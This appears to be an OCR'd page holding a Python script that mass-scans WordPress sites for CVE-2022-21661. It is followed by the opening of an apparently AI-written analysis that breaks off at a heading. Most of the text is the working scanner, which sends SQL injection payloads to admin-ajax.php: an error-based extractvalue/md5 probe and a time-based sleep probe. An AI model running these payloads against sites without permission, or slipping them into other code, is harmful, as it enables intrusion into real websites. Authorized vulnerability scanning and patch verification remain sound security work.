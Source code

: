 ```import requests, hashlib, random, argparse, os
                count=0
                urls=list(filter(None, urls))
                for url in urls:
                    count+=1
                    if 'http://' in url or 'https://' in url:
                        url=urlparse(url)
                        print(f'Attempting to locate CVE-2022-21661 on URL {count} of {str(len(urls))} ({url.geturl()})...')
                        r0 = requests.get(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php')
                        if r0.status_code == 400 and '0' in r0.text:
                            randNum = str(random.randint(1234567890987654321,9999999999999999999)).encode('utf-8')
                            data='{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) and extractvalue(rand(),concat(0x5e,md5(' + str(randNum) + '),0x5e))#"]}}}'
                            r1 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
                            if r1.status_code == 200 and str(hashlib.md5(randNum).hexdigest()) in r1.text:
                                print(f'[{count}/{str(len(urls))}] Vulnerable!')
                            else:
                                print(f'[{count}/{str(len(urls))}] Failed on MD5, testing time based query...')
                                data = '{"tax_query":{"0":{"field":"term_taxonomy_id","terms":["111) or (select sleep(5))#"]}}}'
                                r2 = requests.post(f'{url.scheme}://{url.netloc}/wp-admin/admin-ajax.php', data={"action":"test","data":data}, headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"})
                                if r2.elapsed.total_seconds() >= 5 and r2.status_code == 200:
                                    print(f'[{count}/{str(len(urls))}] Vulnerable!')
                                else:
                                    print(f'[{count}/{str(len(urls))}] Not Vulnerable! (Failed after checking for CVE using 2 PoC\'s)')
                        else:
                            print(f'[{count}/{str(len(urls))}] Not Vulnerable! (Failed at admin-ajax check)')
                    else:
                        print(f'[{count}/{str(len(urls))}] Invalid URL: {url}')
```


# Grok (AI) Analysis 

This Python script is designed to detect the CVE-2022-21661 vulnerability in WordPress instances. CVE-2022-21661 is a SQL injection vulnerability in WordPress core, specifically affecting the tax_query parameter in the admin-ajax.php endpoint. Below is a detailed description and analysis of the code.

---

### **Code Description**
